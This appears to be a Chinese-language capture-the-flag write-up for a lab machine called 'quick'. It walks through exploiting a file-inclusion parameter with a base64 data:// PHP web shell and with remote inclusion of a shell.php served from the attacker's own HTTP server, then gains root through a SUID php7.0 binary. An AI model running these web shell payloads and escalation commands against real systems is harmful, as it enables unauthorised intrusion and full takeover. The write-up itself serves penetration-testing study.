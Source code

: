 ## quick

使用`fscan`扫描发现开启了`80`端口，访问页面

![](./img/quick-1.png)

点击下面的`Home`、`Cars`等会出现参数`?page=xxxx`，猜测有文件包含，但是使用`php`伪协议没有包含成功，尝试远程包含，本机开启服务器

```bash
echo "test" > 1.php
python -m http.server 8089
```

![](./img/quick-2.png)

发现成功访问了我的`http`服务器上的`1.php`

### 漏洞利用

#### data://伪协议

可以直接传数据，不用包含远程服务器上的文件

`<?php system($_POST[1]);?>`

```
=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfUE9TVFsxXSk7Pz4=
```

![](./img/quick-3.png)

#### 远程文件包含法

在攻击机启动一个`http`服务器

```
python -m http.server 8089
```

服务器上写一个`shell.php`

```php
<?php
system($_POST[1]);
?>
```

因为这里代码应该是`$filename . ".php"`的类型，要过滤后面的`.php`可以在后面使用`?`和`#`

![](./img/quick-4.png)

使用配置

![](./img/quick-5.png)

### 提权

尝试`suid`提权

```bash
find / -perm -4000 -type f 2>/dev/null
```

![](./img/quick-6.png)发现`php7.0`具有`suid`权限,但是在蚁剑终端里面不能提权，反弹`shell`出来

![](./img/quick-7.png)

然后使用命令

```
cd /usr/bin
CMD="/bin/sh"
./php7.0 -r "pcntl_exec('/bin/sh', ['-p']);"
```

![](./img/quick-8.png)

![](./img/quick-9.png)